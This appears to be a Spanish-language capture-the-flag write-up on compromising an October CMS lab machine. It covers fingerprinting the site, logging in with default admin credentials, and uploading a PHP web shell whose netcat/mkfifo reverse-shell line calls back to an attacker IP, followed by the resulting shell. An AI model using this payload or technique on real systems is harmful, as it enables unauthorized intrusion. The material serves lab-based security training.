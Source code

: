 
### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.16
```

Vemos que estamos en frente de una maquina Linux servido por un Apache 2.4.7 con un php 5.5.9-1.
Vemos que estamos en frente de un October CMS - Vanilla.

#### Checkear la web del puerto 80 {-}

Con firefox navigamos en la web para ver lo que es. El Wappalyzer nos confirma que estamos contra un October CMS y Laravel.
Como es un gestor de contenido buscamos en google la routa del admin panel y vemos que esta en `/backend`.

## Vulnerability Assessment {-}

### Checkeando vulnerabilidades para October CMS {-}

En el panel de login, probamos `admin-admin` y entramos en el panel de administracion.

;)
## Vuln exploit & Gaining Access {-}

### Ganando accesso desde October CMS {-}

Navigando en la web vemos que hay un fichero .php5 y un boton que nos lleva al fichero

decidimos crearnos un fichero `.php` y subirlo

```bash
vi shell.php5
```

```php
<?php
    system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f");
?>
```

Nos ponemos en escucha por el puerto 443 

```bash
nc -nlvp 443
```

y subimos el archivo pulsando el boton upload y con el link que nos da October vamos a la pagina creada.
Vemos que hemos ganado accesso a la maquina victima.

```bash
whoami 

>www-data
```
